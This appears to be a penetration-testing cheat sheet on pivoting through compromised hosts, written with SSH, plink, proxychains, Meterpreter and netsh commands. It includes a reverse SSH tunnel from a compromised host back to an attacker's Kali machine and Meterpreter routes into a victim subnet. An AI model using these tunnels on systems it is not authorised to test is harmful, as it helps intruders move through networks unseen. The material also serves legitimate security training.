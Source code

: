 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port_to_open:127.0.0.1:$victim_port```

```plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

### Firewall rules ###

#### ----- IPTables ----- ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

### Meterpreter ###

```c:\temp>^Z```

```Background channel 9? [y/N]  y```

```meterpreter > ```

```Background session 3? [y/N]  ```

NOTE: '3' == meterpreter session

```msf5 exploit(multi/handler) > route add 10.11.1.0 255.255.255.0 3``` 

```meterpreter > portfwd add -l 445 -p 445 -r 10.11.1.220```


#### ----- Netsh ----- ####

NOTE: http://woshub.com/port-forwarding-in-windows/

>> Important. This forwarding scheme works only for ```TCP``` ports. You WON'T be able to forward UDP ports this way. Also you CANNOT use 127.0.0.1 as connect address.

###### Check rules

```netsh advfirewall show allprofiles```

###### Create Rule

```netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow```

###### Port Forward

```netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport```

Example: ```netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110```

NOTE: *10.10.1.110 == Current IP address of local computer*

###### Check

```netstat -ano | findstr :$listenport```

###### Find out what process is listening to this port use its PID (in our example, the PID is 636):

```tasklist | findstr 636```

Important: *Make sure that your firewall (Windows Firewall or a third-party one that are often included into an antivirus software) allows incoming connections to the new port.*

###### Add a new Windows Firewall rule using this command:

```netsh advfirewall firewall add rule name=”forwarded_RDPport_3340” protocol=TCP dir=in localip=10.1.1.110  localport=3340 action=allow```

###### Display the list of forwarding rules in the system:

```netsh interface portproxy show all```

###### Tip. Portproxy settings can be obtained as follows:

```netsh interface portproxy dump```

###### Remove a Port Forwarding Rule:

```netsh interface portproxy delete v4tov4 listenport=3340 listenaddress=10.1.1.110```

###### Clear all current port forwarding rules:

```netsh interface portproxy reset```

###### Forward an incoming TCP connection to another computer:

```netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=192.168.100.101```

###### Another portproxy feature is an opportunity to make it look like any remote network service is operating locally:

Example: *Forward the connection from the local port 5555 to the remote address 157.166.226.25 (CNN website):*

```netsh interface portproxy add v4tov4 listenport=5555 connectport=80 connectaddress= 157.166.226.25 protocol=tcp```

